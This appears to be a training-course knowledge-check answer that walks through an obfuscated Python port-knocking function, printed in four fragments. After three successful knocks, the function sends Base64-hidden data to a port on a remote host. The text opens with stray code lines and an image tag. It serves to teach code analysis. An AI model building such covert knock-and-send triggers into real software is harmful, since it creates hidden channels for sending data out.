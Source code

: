  ﻿   if(ps):
 ﻿       ps.close()

<img width="1004" height="659" alt="image" src="https://github.com/user-attachments/assets/ced04d5b-2392-4388-bc7d-bd2fedc522ca" />


--------------

Knowledge Check Solution
The purpose of the provided code snippet is to issue a port knock trigger and, upon sending three successful port knocks, some Base64-encoded data is transferred to the remote host. The obfuscated nature of the function makes determining its functionality slightly difficult; however, the function can be broken down into four main components, as follows.

﻿

Port Knock Part 1
     ran = [65535//i, 32768+i, 1337*i]
﻿

The above code creates an array of three numbers, which act as ports.

﻿

The i  variable is passed as an argument to the pop() function to modify which ports are contacted.

﻿

Port Knock Part 2
   for r in ran:
       ps = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       ps.setdefaulttimeout(1)
       s = ps.connect_ex((a,r))
﻿

The above code iterates over the ports in the ran array and connects to the host passed to the pop() function, which is stored in the a variable.

﻿

Port Knock Part 3
        if s == 0:
              stat.append("OK")
        ps.close()
﻿

A zero indicates that the connect_ex function returned without error, meaning that a successful connection was made. The status of OK is added to the stat array to indicate that the port was successfully knocked.

﻿

Port Knock Part 4
     if(len(stat) == 3):
          ps = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          connect((a,int(base64.b64decode(b'NDg5NDQ=').decode())))
          ps.sendall(base64.b64decode(b'MHhGRUVEQkVFRg=='))
          ps.close()
﻿

